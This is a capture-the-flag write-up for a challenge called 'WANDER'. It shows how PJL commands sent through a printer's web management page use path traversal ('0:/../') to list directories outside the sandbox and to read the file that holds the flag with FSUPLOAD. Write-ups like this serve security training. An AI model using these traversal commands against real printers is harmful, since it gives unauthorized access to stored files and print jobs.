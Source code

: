 
# WANDER
## CHALLENGE DESCRIPTION
My uncle isn't allowing me to print documents. He's off to vacation and I need a PIN to unlock this printer. All I found is a web server where this printer is managed from. Can you help me with this situation ?

### STEPS
1. Paste the IP Address in the web browser and you will directed to the Wander page. 
### ![ab](https://github.com/user-attachments/assets/e656bfb5-ce84-471b-b9f2-326c7a790a33)


2. Printer Job Language (PJL) was developed by Hewlett-Packard to provide a method for switching printer languages at the job level, and for status readback between the printer and the host computer.
     >  @PJL FSDIRLIST NAME="0:" ENTRY=1  : this command is used to list the content of the current directory 
### ![ab](https://github.com/user-attachments/assets/64dffb2f-1c38-4eed-83e3-4b619c557389)


3. To view the upper directory, use this command :
      > @PJL FSDIRLIST NAME="0:/../" ENTRY=1

### ![ab](https://github.com/user-attachments/assets/47218e0c-5ac9-4561-a101-1ebd4ba39048)


4. Inside the default directory there is a file called readyjob, to see the content use this command
      > @PJL FSDIRLIST NAME="0:/../home/default" ENTRY=1

### ![ab](https://github.com/user-attachments/assets/9c7cc37e-fe60-42e6-8760-8fe647b30b74)


5. To get the flag use this command
      > @PJL FSUPLOAD NAME="0:/../home/default/readyjob"

### ![ab](https://github.com/user-attachments/assets/859a456c-4e0b-417d-b0f7-e704f841b251)


